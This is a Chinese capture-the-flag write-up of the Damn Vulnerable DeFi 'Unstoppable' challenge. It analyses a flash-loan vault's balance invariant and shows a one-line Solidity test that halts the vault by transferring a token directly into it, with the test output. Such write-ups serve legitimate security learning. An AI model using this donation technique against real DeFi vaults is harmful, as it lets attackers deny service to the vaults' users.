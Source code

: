 ## 挑战《Unstoppable》
[Unstoppable](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/unstoppable)  
有一个 token 化的金库合约，里面存放了一百万个 DVT 代币。在宽限期结束之前，它会免费提供闪电贷服务。  

为了在完全丢弃权限之前找出潜在的漏洞，开发者们决定在测试网上进行实况测试。为此，他们部署了一个监控合约，用于检查闪电贷功能的活跃状态。  

从只有 10 个 DVT 代币的余额开始，展示如何让这个金库合约停止运行。目标是让它无法继续提供闪电贷服务。  

**解释：** 题目的意思是需要让合约无法正常的提供闪电贷服务，即修改一些条件，导致即使正常调用闪电贷函数，也会失败。

## 合约分析
一共有两个合约文件 [UnstoppableVault](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableVault.sol) 和 [UnstoppableMonitor](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableMonitor.sol)。其中，`UnstoppableVault` 合约是提供闪电贷服务的金库，而 `UnstoppableMonitor` 合约则用于监控合约的闪电贷功能。重点在于 `UnstoppableVault` 合约中的 `flashLoan` 函数。
``` solidity
    function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```
函数中有四个检查条件：
1. `amount` 参数不能为零。
2. 借贷的代币必须是金库的标的代币，在这个例子中即为DVT代币。
3. `convertToShares(totalSupply)` 必须等于 `balanceBefore()`。
4. 闪电贷操作是否成功，通过借贷者合约的 `onFlashLoan` 方法返回的 `magic value` 进行验证。

其中，1、2、4 三个条件相对直观，我们重点分析第 3 个条件。涉及到的函数和变量如下：  
``` solidity
    // 标的代币（DVT）
    ERC20 public immutable asset;

    // 总份额（tDVT）
    uint256 public totalSupply;

    function totalAssets() public view override nonReadReentrant returns (uint256) {
        return asset.balanceOf(address(this));
    }

    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        // 常见省 gas 方式：先将 totalSupply 存入内存，减少 SLOAD 操作。
        uint256 supply = totalSupply; 

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```
`convertToShares` 函数用于将资产数量转换为份额数量，通过公式 $\frac{\text{Total Assets}}{\text{Total Shares}} = \frac{\text{Assets}}{\text{Shares}}$ 计算出 $Shares$ 。因此，检查条件 3 的目的是验证合约的内部状态是否一致，确保 `totalSupply` 转化为的资产数量与金库中的实际资产总量一致，避免通过非正常手段操作合约资产。

不过，此处难道不是应该使用 `convertToAssets` 函数吗，将总份额转换为总资产数量。此处先存疑...    
## 题解
基于上述分析，我们可以得出解决方法：直接向金库合约中转入额外的DVT代币，从而打破代币数量的对应性，使检查条件失败，进而阻止闪电贷功能的运行。  

**测试代码：**
``` solidity
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), 1));
    }
```
**运行测试：**
```
forge test --mp test/unstoppable/Unstoppable.t.sol
```
**测试通过：**
```
Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57390)
[PASS] test_unstoppable() (gas: 67067)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 17.81ms (4.26ms CPU time)
```

## 相关知识
### ERC-4626
ERC-4626 是一个标准化API，用于让用户控制并执行Vault功能，并通过ERC-20代币进行交互。该标准建立在ERC-20之上，核心功能包括向Vault存入资金、查询Vault内的资金状态、股份和资产的兑换，以及对Vault进行资金管理的功能（如存款、提款、铸币和赎回）。

更多内容可参考：  
[ERC-4626: Tokenized Vaults | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-4626)  
[ERC-4626 Tokenized Vault Standard | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

### ERC-3156
ERC-3156 定义了一个统一的闪电贷标准，旨在支持各种不同的借贷机制。许多协议提供闪电贷服务，如dYdX、Aave和Uniswap，但它们的接口各不相同。ERC-3156 的提出为开发者提供了一种标准化的方法，减少了学习成本，并增强了dApp的安全性。  

更多信息请参见：  
[ERC-3156: Flash Loans | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-3156)

